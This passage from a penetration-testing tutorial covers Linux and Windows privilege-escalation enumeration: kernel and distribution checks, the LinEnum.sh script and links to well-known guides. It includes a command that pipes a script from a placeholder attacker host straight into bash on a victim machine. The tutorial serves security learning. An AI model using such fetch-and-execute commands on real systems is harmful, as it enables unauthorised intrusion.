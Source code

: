 ## Kernel Exploits
The second thing I try is:
```
uname -ar
cat /etc/issue
cat /etc/*-release
cat /etc/lsb-release      # Debian based
cat /etc/redhat-release   # Redhat based
```
These commands will tell you which kernel and distribution you are looking at. If you’re lucky, Googling the kernel version and/or the distribution version may reveal known privilege escalation exploits to try.

## Linenum
If you’re into automation and efficiency, checkout LinEnum.sh. It’s a great bash script that enumerates a lot of common misconfigurations in Linux systems. You can get it here: https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

For next-level enumeration efficiency, host linenum.sh on a webserver on your Kali box, then on the victim, just run:
```
curl http://attackerip/LinEnum.sh | /bin/bash
```
G0tmi1k?
Lastly, let’s pay homage to the most referenced Linux privilege escalation article of all time by g0tmi1k: https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

## Privilege Escalation - Windows
The first thing I try is searching for a known exploit for the version of windows you are facing. To find out which version of Windows you are facing, try this:
```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```
If that doesn’t work, you have to do it the hard way. This is a pretty thorough article that has helped me out more than once: http://www.fuzzysecurity.com/tutorials/16.html


